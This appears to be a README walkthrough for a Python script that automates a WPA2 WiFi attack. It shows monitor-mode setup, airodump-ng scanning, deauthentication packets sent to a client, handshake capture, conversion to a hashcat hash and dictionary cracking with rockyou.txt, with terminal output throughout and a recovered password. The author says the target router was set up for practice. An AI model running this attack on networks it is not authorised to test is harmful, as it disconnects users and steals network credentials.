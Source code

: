 # Detailed Instructions for Using the "wifi-attack-automation-tool"

Before running the script `wifi-attack-automation-tool.py`, it is essential to have **root privileges**, as the applications used by the script require these permissions.

Once the necessary privileges have been obtained, proceed to execute the script using the following command:

```
# wifi-attack-automation-tool.py
```

The script itself will verify whether the required **Python packages and system tools** are installed for proper operation.

```
# ./wifi-attack-automation-tool.py 
[2025-06-27 20:27:56.685] <inf> Verifying required Python packages:
[2025-06-27 20:27:56.685] <inf> print_helper_logger is installed
[2025-06-27 20:27:56.685] <inf> scapy is installed
[2025-06-27 20:27:56.685] <inf> deauth_lib is available
[2025-06-27 20:27:56.685] <inf> All required Python packages are ready
[2025-06-27 20:27:56.948] <inf> Verifying required tools:
[2025-06-27 20:27:56.948] <inf> iw found
[2025-06-27 20:27:56.948] <inf> ifconfig found
[2025-06-27 20:27:56.949] <inf> iwconfig found
[2025-06-27 20:27:56.949] <inf> airodump-ng found
[2025-06-27 20:27:56.949] <inf> hcxpcapngtool found
[2025-06-27 20:27:56.949] <inf> hashcat found
[2025-06-27 20:27:56.949] <inf> All tools are ready. System check passed
[2025-06-27 20:27:56.955] <inf> Interfaces that support monitor mode:
[2025-06-27 20:27:56.955] <inf> 1.   wlx00e0202d05b8
Select an interface by number: 1
```

Next, a list of available **network interfaces capable of monitor mode** will be displayed. You must select the desired one; in our case, it is the interface named `wlx00e0202d05b8`, so we choose **option number 1**.

At this point, the script will:
- Configure the selected interface in **monitor mode**.
- Prepare the environment to scan available wireless networks, including:
  - Access Points (AP)
  - Devices connected to them.

```
Select an interface by number: 1
[2025-06-27 20:27:58.718] <inf> You selected: wlx00e0202d05b8
[2025-06-27 20:27:58.737] <inf> 🔻 ifconfig down: OK
[2025-06-27 20:27:58.739] <inf> 📡 iwconfig monitor: OK
[2025-06-27 20:27:58.743] <inf> 🔺 ifconfig up: OK
[2025-06-27 20:27:58.743] <inf> Press [Enter] to begin scanning with airodump-ng...
[2025-06-27 20:27:58.743] <inf> You will run airodump-ng in new window
[2025-06-27 20:27:58.743] <inf> When you're done scanning, press CTRL+C there to stop
```

After pressing Control+C, `airodump-ng` starts to run in order to begin analyzing WiFi devices connected to access points.

```
 CH  1 ][ Elapsed: 12 s ][ 2025-06-27 20:28 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 D0:57:94:70:24:76   -1        0        0    0  -1   -1                    <length:  0>
 CC:D4:A1:83:05:2F   -1        0        0    0  -1   -1                    <length:  0>
 88:DE:7C:A2:91:9F   -1        0        0    0  -1   -1                    <length:  0>
 60:8D:26:FA:ED:11   -1        0        0    0  -1   -1                    <length:  0>
 DC:51:93:D5:0A:F2   -1        0        0    0  -1   -1                    <length:  0>
 2C:96:82:DD:4F:80  -52       38        4    0   6  648   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80
 EC:BE:DD:AD:08:96  -60       44       12    0   9  195   WPA2 CCMP   PSK  HACK_ME
 34:60:F9:6A:95:62  -68       39        2    0   6  130   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80_EXT
 F4:1E:57:06:AA:F3  -69       19        6    0   1  360   WPA3 CCMP   SAE  OSCVER

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 60:8D:26:FA:ED:11  CC:8C:BF:3C:38:05  -57    0 - 1     13      107     
 (not associated)   68:A0:3E:4E:E3:F9  -61    0 - 1      0       13    
 2C:96:82:DD:4F:80  EC:0B:AE:6E:CE:B1  -57    0 - 1e     0        1   
 2C:96:82:DD:4F:80  F4:CE:46:52:FD:7E  -73   54e- 1      0        3   
 2C:96:82:DD:4F:80  36:60:F9:0A:95:62  -73    0 - 1e     0        2   
 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -51    0 - 1e   528       49    
 F4:1E:57:06:AA:F3  EE:12:4A:F6:F6:4E  -33    0 -24      0        6   
 F4:1E:57:06:AA:F3  44:07:0B:A9:BD:11  -57    0 - 1e     0        2
```

Once the **target network** has been identified (for example, the AP `HACK_ME` with BSSID `EC:BE:DD:AD:08:96`), we also select the **associated device** to which we will send **DeAuth packets**. In this example, the device `F6:B1:11:45:98:25`.

The objective is to **force its disconnection** in order to capture the **handshake** when it attempts to reconnect.

By stopping the scan with `Ctrl+C`, the script will analyze the devices connected to valid access points and display a list of them.

```
Quitting...
[2025-06-27 20:28:17.570] <wrn> (airodump-ng) Execution interrupted by user (CTRL+C)
[2025-06-27 20:28:17.570] <inf> 📋 Available targets with valid channels:
[2025-06-27 20:28:17.570] <inf> 1) F4:CE:46:52:FD:7E → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-27 20:28:17.570] <inf> 2) F6:B1:11:45:98:25 → BSSID: EC:BE:DD:AD:08:96 (Channel 9)
[2025-06-27 20:28:17.570] <inf> 3) EC:0B:AE:6E:CE:B1 → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
Enter the number of the client to target:
```

We will then be prompted to **select the device to attack**, i.e., the one to which we will send the DeAuth packets. In this case, we select **option number 2**.

```
Enter the number of the client to target: 2
[2025-06-27 20:28:20.822] <inf> 🎯 Target selected: F6:B1:11:45:98:25 → AP: EC:BE:DD:AD:08:96 on channel 9
Enter number of deauth packets to send [default: 25]:
```

Next, we need to specify **how many DeAuth packets** we want to send:
- If no value is entered, the **default** is **25 packets**.
- By default, they will be sent **every 0.5 seconds**.

Once the number of packets is confirmed:
- A process will open using `airodump-ng` to **listen on the channel** corresponding to the selected AP (in this example, **channel 9**).
- Simultaneously, another process will start to **send the DeAuth packets**.

```
 CH  9 ][ Elapsed: 12 s ][ 2025-06-27 20:28 ][ WPA handshake: EC:BE:DD:AD:08:96

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 EC:BE:DD:AD:08:96  -61   0       89       13    0   9  195   WPA2 CCMP   PSK  HACK_ME

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -45    1e-11      0       60  PMKID
 EC:BE:DD:AD:08:96  CC:8C:BF:3C:38:05  -61    0 - 1     36       24    
```

After the attack is completed, the **capture process will automatically close**.

```
Sent 25 packets.
[2025-06-27 20:28:36.476] <inf> Stopping handshake capture...
```

Subsequently, the tool `hcxpcapngtool` will be used to **convert the `.cap` file generated by `airodump-ng` into a hash format**.

```
[2025-06-27 20:28:36.492] <inf> Convert pcap to hash using hcxpcapngtool
[2025-06-27 20:28:36.500] <inf> (hcxpcapngtool) Conversion successful: /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000
[2025-06-27 20:28:36.500] <inf> /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000: WPA*01*70b128dd915b8008211276e7673bfcae*ecbeddad0896*f6b111459825*4841434b5f4d45***
WPA*02*99ce70ae05369a5d6ec44d7994b8c057*ecbeddad0896*f6b111459825*4841434b5f4d45*9d1be82bcaf2959f56f5f8590cf74329ed4366a4ff8f4f9ee8e65149bd079ef6*0103007502010a0000000000000000001214224b234a0f9cad89d23411447194488f4f405dfda032e44930ec793b934e8e000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac020100000fac040100000fac020000*00
```

The next step is to select the wordlist you want to use for brute force:

```
[2025-06-27 20:28:36.500] <inf> Trying to crack the hash using Hashcat
[2025-06-27 20:28:36.500] <inf> Available wordlists:
[2025-06-27 20:28:36.500] <inf> 1. rockyou.txt
[2025-06-27 20:28:36.500] <inf> 2. alleged-gmail-with-count.txt
[2025-06-27 20:28:36.500] <inf> 3. 500-worst-passwords.txt
[2025-06-27 20:28:36.500] <inf> 4. hotmail.txt
[2025-06-27 20:28:36.500] <inf> 5. No search password
Select the wordlist you want to use: 1
```

Once you have selected the wordlist, and with the hash file ready, the tool `hashcat` will be used along with the password list `rockyou.txt` to **perform a brute-force attack** in an attempt to **crack the password**.

> ⏳ **Note:** The time required will depend on the size of the wordlist.

```
[2025-06-27 20:28:50.588] <inf> You selected: /home/oscargomezf/GIT/wifi-attack-automation-tool/wordlists/rockyou.txt
[2025-06-26 20:28:50.798] <inf> This task may take several minutes...
[2025-06-26 23:41:57.437] <wrn> Password found: pipeylaura
```

Finally, if the process is successful, the **recovered password will be displayed** (for example, `pipeylaura`).

As a **final step**, the script will **return the WiFi interface to its original state**.

```
[2025-06-26 23:41:57.437] <inf> Restoring interface to mode: managed
```

---

## Additional Notes

- **Note 1:** It is recommended to run the script within a **Python virtual environment** to avoid dependency conflicts.

- **Note 2:** The router with SSID `HACK_ME` has been prepared **exclusively for this practice**.
  - **Security:** WPA + WPA2
  - **Key:** Randomly selected from the `rockyou.txt` wordlist: pipeylaura
